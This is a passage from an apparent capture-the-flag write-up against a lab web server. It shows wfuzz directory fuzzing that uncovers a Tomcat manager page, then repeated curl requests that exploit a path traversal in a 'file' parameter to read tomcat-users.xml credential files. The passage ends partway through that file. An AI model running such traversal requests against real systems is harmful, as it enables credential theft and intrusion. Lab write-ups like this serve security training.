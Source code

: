 #### Web content fuzzing
```bash
❯ wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --hc 404 --hh 1895 "http://megahosting.com:8080/FUZZ"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://megahosting.com:8080/FUZZ
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload           
=====================================================================

000000090:   302        0 L      0 W        0 Ch        "docs"            
000000902:   302        0 L      0 W        0 Ch        "examples"        
000004889:   302        0 L      0 W        0 Ch        "manager"
```
We found `manager` page, typical in tomcat web servers.

#### Manual enumeration
When we access the `/index.html` page they mention the folder `/etc/tomcat9/tomcat-users.xml`, let's use the path traversal to read it:
```bash
❯ curl "http://megahosting.htb/news.php?file=../../../../../etc/tomcat9/tomcat-users.xml" -s
❯ curl "http://megahosting.htb/news.php?file=../../../../../../../etc/tomcat9/tomcat-users.xml" -s
❯ curl "http://megahosting.htb/news.php?file=../../../../../../../usr/share/tomcat-users.xml" -s
❯ curl "http://megahosting.htb/news.php?file=../../../../../../../usr/share/tomcat/tomcat-users.xml" -s
❯ curl "http://megahosting.htb/news.php?file=../../../../../../../usr/share/tomcat/tomcat-users.xml" -s
❯ curl "http://megahosting.htb/news.php?file=../../../../../../../etc/tomcat/tomcat-users.xml" -s
❯ curl "http://megahosting.htb/news.php?file=../../../../../../../etc/tomcat8/tomcat-users.xml" -s
❯ curl "http://megahosting.htb/news.php?file=../../../../../../../usr/share/tomcat9/tomcat-users.xml" -s
❯ curl "http://megahosting.htb/news.php?file=../../../../../usr/share/tomcat9/tomcat-users.xml" -s
❯ curl "http://megahosting.htb/news.php?file=../../../../../usr/share/tomcat9/etc/tomcat-users.xml" -s
<?xml version="1.0" encoding="UTF-8"?>
<!--
  Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
<!--
  NOTE:  By default, no user is included in the "manager-gui" role required
  to operate the "/manager/html" web application.  If you wish to use this app,
  you must define such a user - the username and password are arbitrary. It is
```